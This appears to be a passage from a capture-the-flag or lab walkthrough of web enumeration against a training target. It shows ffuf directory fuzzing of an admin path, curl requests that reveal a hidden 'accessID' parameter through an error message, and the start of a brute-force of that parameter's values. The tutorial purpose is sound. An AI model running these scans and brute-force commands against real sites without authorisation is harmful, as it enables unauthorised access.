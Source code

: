 **Command used:**

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt \
     -u http://94.237.57.115:49490/admin/FUZZ \
     -e .php -v -ic -c -mc 200 -t 50
```

**Notable findings:**

- `http://94.237.57.115:49490/admin/index.php` — status 200
    
- `http://94.237.57.115:49490/admin/panel.php` — status 200
    

(Scan aborted with Ctrl-C after useful results were gathered.)

---

### 2. Parameter fuzzing / identification

**Goal:** inspect `panel.php` for parameters and error messages that reveal parameter names.

**Manual check:**

```bash
curl "http://94.237.57.115:49490/admin/panel.php"
```

**Response:**

```
Invalid parameter, please ensure accessID is set correctly
```

The error message explicitly reveals parameter name: **`accessID`**.

Verify with a basic request:

```bash
curl "http://94.237.57.115:49490/admin/panel.php?accessID=1"
```

**Response:**

```
Invalid parameter, please ensure accessID is set correctly
```

So `accessID` is required and expects a particular value.

---

### 3. Value fuzzing

**Goal:** brute-force likely values for `accessID` using `ffuf`.

**Command used:**

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt \
     -u "http://94.237.57.115:49490/admin/panel.php?accessID=FUZZ" \
     -fc 404 -ic -c -fs 58
```

